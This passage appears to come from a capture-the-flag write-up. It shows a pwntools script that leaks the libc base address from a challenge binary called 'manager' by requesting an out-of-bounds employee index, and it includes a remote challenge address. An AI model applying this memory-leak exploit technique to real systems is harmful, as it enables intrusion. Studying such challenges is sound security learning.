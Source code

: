 Simplicity counts and we only need to know where libc is loaded for this, so 
we'll start with a pwntools script to leak the libc base address:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("manager")
libc = ELF("./libc-2.31.so")
# Don't forget to load our Libc version
env={"LD_PRELOAD":"./libc-2.31.so"}

context.clear(arch="amd64")
context.log_level="INFO"
DEBUG = True
REMOTE = False

instance = "142.93.38.188:31798"
host, port = instance.split(":")

if REMOTE:
    p = remote(host, int(port))
else:
    p = process("./manager", env=env)

# Attach GDB to this process and break at edit employee exit
# Will come in handy for ROP debugging later
if DEBUG:
    gdb.attach(p, '''
    info func
    b *(edit_employee + 99)
    continue
    ''')

# Now leak Libc base
p.recvuntil(":")  # Menu options for read/edit employee
p.sendline("1")   # Select employee print 
p.recvline()      # Read up to enter employee index
p.sendline("7")   # prints __libc_start_main+234 - libc base + 0x26d0a

# The address comes in two halves - rate and hours
p.recvuntil("ate:")
pb1 = p.recvuntil("\n")
p.recvuntil("eek:")
pb2 = p.recvuntil("\n")

# Combining the two is just a case of shifting the first left 32 bits
libc_base = (int(pb1.decode()) << 32) + int(pb2.decode())
log.info(f"LIBC Base addr: {hex(libc_base)}")
p.interactive()
```
